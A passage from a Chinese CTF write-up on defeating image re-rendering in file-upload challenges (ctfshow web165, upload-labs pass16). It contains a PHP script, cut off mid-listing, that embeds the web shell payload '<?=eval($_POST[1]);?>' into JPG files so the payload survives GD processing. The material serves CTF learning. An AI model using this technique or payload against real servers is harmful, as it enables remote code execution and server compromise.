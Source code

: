 
![png1](https://the0n3.top/medias/show-upload/png1.png)


> 这里提一句，关于为什么png二次渲染可以利用脚本直接生成的我没找到原因，很遗憾。在测试**狼组**团队师傅所说的通过函数**imagecreatefrompng**报错绕过二次渲染，在本地使用var_dump测试这个函数处理生成图片时，函数正常运行没有报错。

```php
<?php
$file = './1.png';
var_dump(imagecreatefrompng($file)); # resource(5) of type (gd)
```

[【原文】](https://wiki.wgpsec.org/knowledge/ctf/uploadfile.html)

![wolf](https://the0n3.top/medias/show-upload/wolf.png)

## JPG二次渲染

推荐：

- [ctfshow web165 jpg二次渲染](https://ctf.show/challenges#web165-608)
- upload-lab pass16 二次渲染

::: danger
jpg二次渲染图片马不能靠脚本直接生成，你需要先上传原图，再ctrl+s把渲染后的图片再保存下来，现在你才可以使用下面脚本再次渲染

此处驻留甚久，顾谓后来者
:::

把网站渲染过一次的图片保存下来，使用下面脚本再次渲染，拿到`二次渲染图`(`成果图`)

jpg二次渲染脚本

```php
<?php
    /*
将有效载荷注入JPG图像的算法，该算法在PHP函数imagecopyresized()和imagecopyresampled()引起的变换后保持不变。
初始图像的大小和质量必须与处理后的图像的大小和质量相同。
1)通过安全文件上传脚本上传任意图像
2)保存处理后的图像并启动:
php 文件名.php <文件名.jpg >
如果注射成功，您将获得一个特制的图像，该图像应再次上传。
由于使用了最直接的注射方法，可能会出现以下问题:
1)在第二次处理之后，注入的数据可能变得部分损坏。
jpg _ payload.php脚本输出“有问题”。
如果发生这种情况，请尝试更改有效载荷(例如，在开头添加一些符号)或尝试另一个初始图像。
谢尔盖·博布罗夫@Black2Fan。
另请参见:
https://www . idontplaydarts . com/2012/06/encoding-we B- shell-in-png-idat-chunks/
*/

    $miniPayload = '<?=eval($_POST[1]);?>';
 
 
    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }
    
    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }
 
    set_error_handler("custom_error_handler");
 
    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
```